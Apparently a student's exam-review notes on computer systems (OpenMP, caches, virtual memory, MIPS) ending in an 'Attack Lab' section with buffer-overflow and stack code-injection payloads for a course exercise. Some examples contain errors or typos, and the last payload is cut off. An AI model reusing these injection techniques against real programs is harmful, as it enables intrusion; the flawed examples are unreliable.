        - When the counter is nonzero, the door is open and the thread can pass
        - When the counter is zero, the door is closed
    - We rely on three primatives to control the value of the counter: sem_init, sem_wait, and sem_post
    - One way to look at the semaphore is to liken it to a doorman; the function that initializes the semaphore is the host, while the threads attempting to enter the critical section are the guests
        - We begin with sem_init informing the semaphore how many guests should be allowed
        - The guests subsequently sem_wait until there is available capacity, which allows them to check in and enter the critical section
        - The guests check out using sem_post
- Concurrency vs parallelism
    - Concurrency: A condition of a system in which multiple tasks are logically active at one time
    - Parallelism: A condition of a system in which multiple tasks are actually active at one time

### OpenMP
- OpenMP is a multi-threading, shared address model
    - Threads communicate by sharing variables
- Unintended sharing of data causes race conditions (when the program's outcome changes as the threads are scheduled differently)
- To control race conditions: use synchronization to protect data conflicts
- Synchronization is expensive so: change how data is accessed to minimize the need for synchronization
- False sharing: If independent data elements happen to sit on the same cache line, each update will cause the cache lines to "slosh back and forth" between threads
- Synchronization: Bringing one or more threads to a well defined and known point in their execution
    - Barrier: each thread wait at the barrier until all threads arrive
    - Mutual exclusion: define a block of code that only one thread at a time can execute
    - High level synchronization:
        - Critical (#pragma omp critical)
            - Mutual exclusion: Only one thread at a time can enter a critical region
            ```
            #pragma omp critical
            res += consume(B); // only one at a time calls consume()
            ```
        - Atomimc (#pragma omp atomic)
            - Provides mutual exclusion but only applies to the update of a memory location (the update of X in the following example)
            ```
            #pragma omp atomic
            X += tmp;
            ```
            - The statement inside the atomic must be one of the following forms:
                - x binop = expr
                - x++
                - ++x
                - x--
                - --x
                - x is a value of a scalar type and binop is a non-overloaded built-in operator
        - Barrier (#pragma omp barrier)
        - Ordered
    - Low level synchronization:
        - Flush
        - Locks (simple and nested)
- Private
    - For #pragma omp for, the outside variable is made private to each thread by default (i)
    - What to private:
        - Loop iterators
        - Temporary variables
        - Function parameters
        - Private arrays
        - Private class/struct members
    - Firstprivate
        - The private copies are initialized to the values the variable had immediately before entering the construct
        - Variables initialized from shared variable
        - C++ objects are copy-constructed
        - Each thread gets its own copy of incr with an initial value of 0:
        ```
        incr = 0;
        #pragma omp parallel for firstprivate(incr)
        for (i = 0; i <= MAX; i++)
        {
            if((i%2)==0) incr++;
            A[i] = incr;
        }
        ```
    - Lastprivate
        - The thread that executes the sequentially last iteration/section updates the original variable upon exiting the construct
        - Variables update shared variable using value from last iteration
        - C++ objects are updated as if by assignment
        - x has the value it held for the "last sequential" iteration
- Schedule
    - schedule(static [,chunk]): Deal-out blocks of iterations of size "chunk" to each thread
    - schedule(dynamic[,chunk]): Each thread grabs "chunk" iterations off a queue until all iterations have been handled
    - schedule(guided[,chunk]): Threads dynamically grab blocks of iterations; the size of the block starts large and shrinks down to size "chunk" as the calculation proceeds
    - schedule(runtime): Schedule and chunk size taken from the OMP_Schedule environment variable (or the runtime library)
    - schedule(auto): Schedule is left up to the runtime to choose (does not have to be any of the above)
- Reduction
    - reduction(op : list)
    - #pragma omp parallel for reduction (+:ave)
    - Operands/initial values:
        - +: 0
        - *: 1
        - -: 0
        - min: largest positive number
        - max: most negative numbe
        - &, ^, |, &&, ||
    - Declares the variables in the comma-separated list to be private to each thread
    - At the end of the reduction, the shared variables are updated by combining the original values of each of the private copies
- Master (#pragma omp master)
    - The master construct denotes a structured block that is only executed by the master theread
    - The other threads just skip it (no synchronization is implied)
- Single (#pragma omp single)
    - The single construct denotes a block of code that is executed by only one thread (not necessarily the master thread)
    - A barrier is implied at the end of the single block (can remove the barrier with a nowait clause)
- Sections (#pragma omp section)
    - The sections worksharing construct gives a different structured block to each thread
    - By default, there is a barrier at the end of the "omp sections"
        - Use the "nowait" clause to turn off the barrier
- Lock
    - A lock immplies a memory fence (a "flush") of all thread visible variables
    - Simple lock routines:
        - A simple lock is available if it is unset
        - omp_init_lock(), omp_set_lock(), omp_unset_lock(), omp_test_lock(), omp_destory_lock()
    - Nested locks:
        - A nested lock is available if it is unset or if it is set but owned by the thread executing the nested lock function
        - omp_init_nest_lock(), omp_set_nest_lock(), omp_unset_nest_lock(), omp_test_nest_lock(), omp_destroy_nest_lock()
    - `omp_init_lock(&hist_locks[i])`: One lock per element of hist
    - `omp_set_lock(&hist_locks[ival]); hist[ival]++; omp_unset_lock(&hist_locks[ival]);`: Enforce mutual exclusion on update to hist array
    - `omp_destroy_lock(&hist_locks[i]);`: Free up storage when done
- Tasks (#praga omp task)
    - Independent units of work
    - Composed of:
        - Code to execute
        - Data environment
        - Internal control variables (ICV)
    - Threads perform the work of each task
    - The runtime system decides when tasks are executed
        - Tasks may be deferred
        - Tasks may be executed immediately
    ```
    #pragma omp parallel 
    {
        #pragma omp task        // Multiple foo tasks created here, one for each thread
        foo();
        #pragma omp barrier     // All foo tasks guaranteed to be complete here
        #pragma omp single
        {
            #pragma omp task    // One bar tasks created here
            bar();
        }                       // Bar tasks guaranteed to be completed here
    }
    ```
    - Tasks are guaranteed to be complete at thread barriers (#pragma omp barrier) or task barriers (#pragma omp taskwait)
    - A tasks's private variables are undefined outside the task
    - Task cont
- num_threads(int): Specifies the size of the team of threads for the immediately following parallel region
- shared(list): Threads access the same storage area for the variables that appear in list, sharing them
- default(shared|none)
    - Specifies scoping attributes for all variables within a parallel region
    - If not specified, DEFAULT(SHARED) is assumed
    - Can be overridden by using the private, firstprivate, lastprivate, reduction, and shared clauses
- nowait: Overrides implicit barriers

- Example: Fill in ????s such that this code snipit will return the sum of the result of doStuff using OpenMP parallelism using no undefined behavior (assume sum will not overflow a long long). Then re-write the code with the loop unrolled once. 
```
?????
#pragma omp ?????
for (int i = 0; i < 1000; i++) {
   ????? = doStuff(i);
}
return ????
```
```
int sum;
#pragma omp reduction(+:sum)
for (int i = 0; i < 1000; i++) {
   sum += doStuff(i);
}
return sum;
```
```
int sum;
#pragma omp reduction(+:sum)
for (int i = 0; i < 1000; i+=2) {
   sum += doStuff(i) + doStuff(i+1);
}
return sum;
```
- Example: What should be added to the clauses?
    - private(x)
    - reduction(+: accum)
- Example: Asking for block size listed in the problem (loop blocking/tiling?)
    - x += size * BSIZE;
    - w += size * BSIZE;
- Example: Array loop optimization
    - tempy = first[i] / 2.0 + first[i + 1];
    - result[DIM - 1] = (first[DIM - 1] + result[DIM - 2]) / 2.0


### Memory Hierarchy
- Caching: for each level k, a smaller and faster device at k serves as a cache for a larger slower device at k+1
    - Example: DRAM is a cache to the disk, and the L1 - L3 caches are caches to DRAM
- At the L1 cache, we often see a distinction between the L1 data and the L1 instruction caches
    - As explored in ILP, we can fetch both the instruction and data in parallel
    - Allows us to take advantage of locality
- Cache blocks are generally stored in some format like: `[set][valid][dirty][tag][-- data --]`
    - The set and tag fields indicate the block of data being cached
    - We cache at a coarser granularity than single bytes
    - The distribution of bits to set and tag can heavily influence the likeliness that we're storing the right things in the cache
- When we write programs, we want to take advantage of locality
    - Spatial locality: accessing some data in some memory address probably means that you're going to be accessing data in nearby memory; stride-1 reference patterns good
    - Temporal locality: you're probably going to be accessing data more than just once; repeated references to variables good
- Cache memories
    - L1 cache (2-4 cycles): between CPU register file and main memory
    - L2 cache (10 cycles): between L1 cache and main memory
    - L3 cache (30-40 cycles): between L2 cache and main memory
    - SRAM is faster than DRAM
    - After main memory you have a secondary storage (usually disk or SSD)
- General caching organization
    - m bits for addressing: M = 2^m addresses
    - A cache has S = s^s cache sets
    - Each set has E cache lines
    - Each line has 1 valid bit, t tag bits, B = 2^b bytes per cache block
    - Cache size: C = B * E * S
- Types of caches
    - Direct-mapped cache: E = 1, only one line per set
    - Set-associative cache: 1 < E < C/B, more than one line per set
    - Fully associative cache: E = C/B AND S = 1, only one set with C/B lines
- CPU caches
    - i-cache: only stores instructions
    - d-cache: only stores data
    - unified cache: stores both instructions and data
    - This allows the processor to read instructions and data at the same time
- Performance of caches
    - Miss rate: #misses / #references
    - Hit rate: 1 - miss rate
    - Hit time: time to deliver word from cache to CPU
    - Miss penality: any additional time due to a cache miss
- Write hit policies
    - Write back
        - Write to cache and set the dirty bit
        - When data is about to be overwritten by cache eviction, send dirty data to lower level
    - Write through
        - When write to a cache, write through to the lower level
- Write miss policies
    - Write allocation
        - Load corresponding block from lower level to cache, then write
        - Takes advantage of space locality, but misses lead to a load
    - No write allocate
        - Skip the cache and write directly to the lower level
- Ex: Discuss the tradeoffs between write-through and write-back write hit policies
    - Under the write-through policy, for each write hit, write to the cache and also to the backing memory
        - Memory and cache are always synchronized and consistent
        - However, we incur the penalty of writing to memory each time we write to cachce, which negates the benefit of the cache for writes
    - Under the write-back policy, for each write hit, write only to the cache but mark the cache block as dirty; we write back to memory upon eviction
        - We benefit immensely from temporally localized programs
        - Although we've guaranteed that we perform less or equally many writes as with the write-through policy, we run into the issue of unprecitability in our writes
        - For example, if we're developing a program for a nuclear plant, we might want to be sure of how long a write will take
        - In the case that we have a program that performs many random reads, we may perform just as many writes but occupy extra space for the dirty bit

### Memory Virutalization
- Page table
    - Index = virtual page number
    - Entry = page table entry
    - Page table entry contains physical page number + extra information (valid, dirty bits, etc)
    - Hierarchial page tables
        - Instead of giving physical page number, gives address to another page table (allows us to store more page table entries)
- Terminology
    - Page hit: page in physical memory
    - Page fault: page not in physical memory, raises exception to be handled by OS
    - TLB miss: PTE not in TLB, must consult page table
    - Physical page/frame number (PPN/PFN): upper bits of physical address
    - Virutal page number (VPN): upper bits of virtual address
    - Physical page offset/virutal page offset: lower bits of both physical and virutal addresses, same length for both
- Turn your tiny memory into an infinite space to work with through the use of virtual addresses, virtual page numbers, physical page numbers, paces, and the translation lookaside buffer (TLB)
- Based on the size of the system (64 or 32 bit systems) the address we usually work with is broken into a VPN (offset into the per process page table) and VPO (size of each page)
- A page is just a fixed chunk of memory we can take, so essentially everything on our system i sbroken up into a bunch of pages, each process has a page table that maps each of the pages to physical memory
- The page table is indexed through something known as the PTE (page table entry) and the addresses in this table are broken into a PPO (same offset as VPO into the page in memory) and PPN (the reference to the page in physical memory)
- The page table is actually stored within memory itself, so accessing the page table each time over is not super efficient, this is why the TLB exists
- This is part of the MMU in the CPU itself
- Based on the scheme used (most likely LRU) the TLB contains the most recently accessed PTEs for fast access into physical memory
- TLB miss: go find the PTe based on the VPN in memory and update the cache and try again
- TLB hit: yay go to that memory location
- Every page also contains other information such as whether they re valid (allocated yet) or not
- Accessing an invalid page with raise an exception into page fault handler
- Pages are also managed into disk, but this is a more involved process

### Linking
- Bringing different parts of a program into one coherent exxecutable
- Static linking: the linking is done at compile time through the use of static libraries (archive files, .a extension)
    - During the pre-processing stage the code not defined in the moduels will be placed as symbol stubs, that the linker will resolve during compile time
    - The assembler creates a relocatable object file to help associate all the data for the creation of the final executable
        - Many formats exist, most popular is ELF
    - Symbol resolution: associate the stub with the function/variable
    - Relocation: find the address of symbol in the actual library and replace stub with it
    - Static linking produces large executables since they contain all the data, but this is more portable
        - If a library is updated, the entire executable has to be re-linked
- Dynamic linking/loading: the linking is done at run time through the use of shared libraries (shared object files - .so extension)
    - Use one shared object file (.so) that has placeholders all over made by the linker
        - While running or loading, fill in placeholders with the necessary addresses through symbol resolution and relocation
        - This shared object will be shared between different processes and so is a lot more effective
    - Advantages/Disadvantages
        - Compile time is sped up but run time is slower
        - One break could case more damage than with a static library

### Exceptions
- When something unexpected happens, sto pcontrol flow and try to deal with the error
- Update ERRNO in UNIX systems to give more information (it is thread local)
- Upon the operation that raises the exception, the PC (along with some other stuff) is saved at the mode changes to kernel mode to execute a trap/Interrupt handler
- The handler will see what kind of error was set and decide how to proceed
    - It may choose to abort (everything is lost) or halt (recoverable) execution
- Executions are hardware based, we have something similar in software called signals (where power is given to the user to define a handler)
- Types
    - Asynchronous exceptions (Ex: I/O Interrupt)
    - Synchronous exceptions
        - Traps
            - Basically, means for application (software) to transfer control to OS
            - Stuff like system calls, breakpoints
        - Faults
            - Unintentional, but recoverable
            - Page faults, protection faults, floating point exceptions
        - Abort
            - Unintentional, cannot be recovered

### I/O
- This is to do with communication with devices, wherein the code to do so is defined within device drivers
- These devices are connected through the BUS - Northbridge in Intel connects CPU to RAM and Southbridge connects it to different peripherals
- Sharing a BUS between devices increases efficiency and transparency through bus snopping but bus arbitration can cause contention between multiple devices, which would require some scheduling mechanism to resolve
- Commands are defined in device drivers that moves down to the lower level and is implemented as either memory mapped I/O or special assembly
- Once an I/O operation has been erquested the process can do one of two things:
    - Polling: keep asking device if it's done yet
    - Asynchronous interrupts: send an interrupt when the device is done
- To reduce overhead between switches from CPU to memory device we have direct memory access where the device is given access to the memory itself and operates independently to the CPU

### MIPS
- RISC: Reduced (Regular/Restricted) Instruction Set Computer
- R_d <- D_s op R_t (Rs are registers)
- Basic operations
    - Arithmetic (addition, subtraction, etc)
    - Logical (and, or, xor, etc)
    - Comparison (less than, greater than, etc)
    - Control (branches, jumps, etc)
    - Memory access (load and store)
- All MIPS instructions are 32 bits long
- Every operand of a MIPS instruction must be in a register (with some exceptions)
- Variables must be loaded into registers and results have to be stored back into memory
```
a = b + c;
d = a + b;
```
```
Load b into register Rx
Load c into register Ry
Rz <- Rx + Ry
Store Rz into a
Rz <- Rz + Rx
Store Rz into d
```
- Registers
    - Provides 32 32-bit registers named $0, $1, $2...$31 used for:
        - Integer arithmetic
        - Address calculations
        - Special-purpose functions defined by convention
        - Temporaries
    - A 32-bit program counter (PC)
    - Two 32-bit registers HI and LO used specifically for multiplication and division
    - 32 32-bit registers $f0, $f1, $f2...$f31 used for floating point arithmetic
    - Other special-purpose registers

- Notation
    - rd: destination register (modified by instruction)
    - rs: source register (read by instruction)
    - rt: source/destination register (read or read+modified)
    - immed: a 16-bit value
- Load and store
    - Data is explicityly moved between memory and registers through load and store instructions
    - Each load or store must specify the memory address of the memory data to be read or written
    - Think of a MIPS address as a 32-bit, unsigned integer
    - Because a MIPS instruction is always 32 bits long, th address must be specified in a more compact way
    - We always use a base register to address memory
    - The base register points somewhere in memory, and the instruction specifies the register number, and a 16-bit, signed offset
    - A single base register can be used to access any byte within ??? bytes from where it points in memory
    - Load a word from memory: `lw rt, offset(base) # rt <- memory[base+offset]`
    - Store a word into memory: `sw rt, offset(base) # memory[base+offset] <- rt`
    - For smaller units (bytes, half-words) only the lower bits of a register are accessible
    - Also for loads you need to specify whether to sign or zero extend the data
- Instructions
```
# Arithmetic instructions
ADD   rd, rs, rt      # rd <- rs + rt
ADD   $8, $8, $10     # r8 <- r8 + r10
ADD   $t0, $t1, $t2   # t0 <- t1 + t2
ADDI  rt, rs, immed   #rt <- rs + immed
ADDI  $t3, $t4, 5     # t3 <- tw + 5
SUB   rd, rs, rt      # rd <- rs - rt
SUB   $s0, $s0, $s1   # s0 <- s0 - s1

# Flow of control: Conditional branches
BEQ   rs, rt, target  # branch if rs == rt
BNE   rs, rt, target  # branch if rs != rt

# Comparison between registers
SLT   rd, rs, rt      # if rs<rt then rd <- 1
                        #    else rd <- 0
SLTU  rd, rs, rt      # same, but rs,rt unsigned

SLT   $7, $6, $5      # $7 = 1, if $6 < $5
BNE   $7, $0, L1 

# Jump instructions
# Allow for unconditional transfer of control
J     target          # go to specified target
JR    rs              # jump to addr stored in rs

# Jump and link is used for procedure calls
JAL   target          # jump to target, $31 <- PC
JALR  rs, rd          # jump to addr in rs
                        # rd <- PC
# When calling a procedure, use JAL; to return, use JR $31

# Logic instructions
# Used to manipulate bits within words, set up masks, etc
AND   rd, rs, rt      # rd <- AND(rs, rt)
ANDI  rt, rs, immed   # rt <- AND(rs, immed)
OR    rd, rs, rt
ORI   rt, rs, immed
XOR   rd, rs, rt
XORI  rt, rs, immed
# The immediate constant is limited to 16 bits
# To load a constant in the 16 upper bits of a register we use LUI
LUI   rt, immed       # rt<31, 16> <- immed
                        # rt<15, 0> <- 0
```


```
# Hello World
            .text            # text segment
            .global__start   
__start:                  # execution starts here
            la $a0,str       # put string address into a0
            li $v0,4
            syscall          # print
            li v0, 10
            syscall          # au revoir
            .data            # data segment
str:     .asciiz "hello world\n"
```
- Problem: What would be the output of the following MIPS code?
```
.globl main
main: 
       addu    $s7, $0, $ra   # s7 <- 0 + ra (save the return address)
       add     $s3, $0, $0    # s3 <- 0 + 0, s3 = 0 (initialize i to 0)
       addi    $s4, $0, 1     # s4 <- 0 + 1, s4 = 1 (initialize increment value)
       add     $s5, $0, $0    # s5 <- 0 + 0, s5 = 0 (initialize comparison value)
       la      $s6, save      # s6 = save (load address of the array)
       .data
       .align  2
       .globl  save
save:  .word   0, 0, 0, 0, 0, 0, 0, 6, 3, 2 # array of 10 words called "save"
       .text
Loop:
       add     $t8, $s3, $s3  # t8 <- s3 + s3 (calculate the index)
       add     $t8, $t8, $t8  # t8 <- t8 + t8 (t8 = 4 * s3) (multiply index by 4 as each word is 4 bytes)
       add     $t8, $t8, $s6  # t8 <- t8 + s6 (t8 = 4 * s3 + save) (calculate the address of s[i])
       lw      t9, 0($t8)     # load word (t8 + 0) into t9, t9 = t8 (t9 = save[i])
       bne     $t9, $s5, Exit # if t9 != s5, exit (exit if save[i] != 0)
       add     $s3, $s3, $s4  # s3 <- s3 + s4 (increment i)
       j       Loop           # jump back to the beginning of the loop
Exit:
       .data
       .globl  message1
message1:      .asciiz "\nThe value of i is: "
       .text
       li      $v0, 4          # v0 = 4
       la      $a0, message1   # a0 = message1
       syscall
       li      $v0, 1          # v0 = 1
       add     $a0, $0, $s3    # ao <- 0 + s3
       syscall
       addu    $ra, $0, $s7    # ra <- 0 + s7
       jr      $ra             # jump to ra
       add     $0, $0, $0
```

The program is checking to see the first non-zero index of the array so the answer here is
7.
- MIPS and assembly
    - ADD rd, rs, rt
        - rd and rt have to be the same or rd and rs
        - If rd is %eax, rs is %eax, and rt is %ebx: `addl %ebx, %eax`
        - ADD $t0, $t1, $t2 and ADDI $t3, $t4, 5 must be done with a leaq
    - JAL target
        - callq
    - `addl %eax, %edx`: add(u) $t0, $t0, $s0
        - add long %eax to %edx (store in %edx): add $s0 to $t0 (store in $t0)
    - `movl 0x40(%eax), %edx`: lw $t0, 64($s0) 
        - move long 0x40(%eax) to %edx: load word 64($s0) to $t0
    - `leal 0x40(%eax), %edx`: addiu $t0, $s0, 64
        - addi may work but addiu is most correct
        - load effective address 0x40(%eax) to %edx: move $s0 + 64 to $t0
    - `lea 0x4(%rdi, %rsi), %rax`
        - $t0: %rdi
        - $t1: %rsi
        - $t2: %rax
        - add $t3, $t1, $t0
        - addi $t2, $t3, 4
    - `mov %rdx,(%rsp, %rsi, 8)`
        - Equivalent to `*(%rsp + 8 * %rsi) = %rdx`
        - $t0: %rsi
        - $sp: %rsp
        - $t1: %rdx
        - add $t2, $t0, $t0
        - add $t2, $t2, $t2
        - add $t2, $t2, $sp
        - add $t3, $t2, $sp
        - sw $t1, 0($t3)

### Locks
- Consider the following code, with OpenMP pragma’s inserted. There is a printf statement at the end of the code. What would the result of this execution be? Assume there are four threads created by the #pragma omp parallel construct.
    - The program would print the value 0 one time.
    - The program would print the value 0 four times.
    - The program would print the value 1 one time.
    - The program would print the value 1 four times.
    - The program would never complete.

```
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <omp.h>
#define ENTRIES 50
#define TOTAL 1000

int accum[ENTRIES];
omp_lock_t array_locks[ENTRIES];
int sources[TOTAL];

int main( int argc, const char* argv[] )
{
    int i,x;
    #pragma omp parallel
    {
        #pragma omp for
        for (i=0;i<TOTAL;i++){
        sources[i]=i;
    }
    #pragma omp for
    for(i=0;i<ENTRIES; i++){
        omp_init_lock(&array_locks[i]);         // initialize lock
        accum[i] = 0;
    }
    #pragma omp for private(x)
    for(i=0;i<TOTAL;i++){
        x = sources[i]%ENTRIES;
        omp_set_lock(&array_locks[x]);          // set lock
        if (sources[i]==0)
        {
            accum[x]++;
            omp_unset_lock(&array_locks[x]);    // unset lock (conditional and rarely met)
        }
    }
    #pragma omp for
    for(i=0;i<ENTRIES; i++)
        omp_destroy_lock(&array_locks[i]);      // destroy lock
        printf("%d\n",accum[0]);
    }
}
```
This will never complete. The problem here is that the unset of the lock is conditional, and that condition is rarely met, so at least one thread will end up waiting forever on a lock that doesn't release.  

### Attack Lab
```
Dump of assembler code for function getbuf:
   0x0000000000401858 <+0>:	    sub    $0x38,%rsp // 0x38 = 56 bytes of padding
   0x000000000040185c <+4>:	    mov    %rsp,%rdi
   0x000000000040185f <+7>:	    call   0x401a9a <Gets>
   0x0000000000401864 <+12>:	mov    $0x1,%eax
   0x0000000000401869 <+17>:	add    $0x38,%rsp
   0x000000000040186d <+21>:	ret    
```
```
void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```
- Phase 1
    - Simple buffer overflow
    - Set return address of getbuf to address of touch1
    - Return address is always stored right above (greater) than the stack space allocated to the called function, in this case getbuf requires 0x38 (56) bytes
    - Instructions
        - Fill in the 56 bytes of getbuf with blanks (00 bytes)
        - Overwrite the return address to be the address of touch1 by overwriting the buffer and editing the stack space above
    - Difference from homework problem:
        - No registers are pushed before the sub command
        - If there are registers, that adds an additional 8 bytes of padding for every register
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
40 18 6e 00 00 00 00 00	// address of touch1 
```
```
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
- Phase 2
    - Set return address to touch2 but ensure that %rdi is the cookie when calling touch2
    - Write code that moves cookie to %rdi, then return
    - Store code to move cookie to %rdi somewhere in the stack
    - Instructions
        - Write code to mov cookie value to rdi and return in phase2.s
        - Compile phase2.s using gcc -c phase2.s
        - Dissasemble the compiled code with objdump -d phase2.o > phase2.d
        - Copy the byte representation of the disassembled code
        - Place byte representation of code into buffer space and fill the rest with empty bytes
        - Replace return address with the address of the code (where rsp points to the code)
        - Write address of touch2 above the address of code so that the retq of code will go to touch2
```
cookie: 0x78f1ad5f
rsp: 0x556164c0
0x556164c0 - buffer (56, 0x38) = 0x55616488
address of touch2: 40189a

0:	48 c7 c7 5f ad f1 78 	mov    $0x78f1ad5f,%rdi
7:	68 9a 18 40 00       	pushq  $0x40189a			// address of touch2
c:	c3                   	retq   
                                                                 
48 c7 c7 5f ad f1 78		// code injection 
68 9a 18 40 00
c3 00 00 00
00 00 00 00 00 00 00 00		// padding (56, 0x38)
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 64 61 55 00 00 00 00		// rsp - 0x38
```
```
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
- Phase 3
    - Call touch3 after setting rdi to pointer
    - String representation: cookie of 0x123 must read "123" in ASCII code format
    - Instructions
        - Convert cookie to its string representation using man ascii
        - Figure out where cookie string will be placed (cannot be inside buffer space), will place it at the very top of stack after touch3 address is written so that line will never be called
        - The address in the stack where cookie string is stored will be the pointer, write code that stores that location into rdi
        - Place the byte representation of that code (compile then disas) inside the buffer and fill the rest with 00 padding
        - Place the address of $rsp where it points to the injected code in buffer so that code will be run first (setting rdi to address of cookie string)
        - Write the address of touch3 so that the program will go to touch3 after injected code returns
```
touch3: 40196e
cookie: 0x78f1ad5f = 37 38 66 31 61 64 35 66

// 48 c7 c7 + (rsp + 0x10 backwards)
48 c7 c7 D0 64 61 55 c3

// buffer (6 lines of 0?)
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

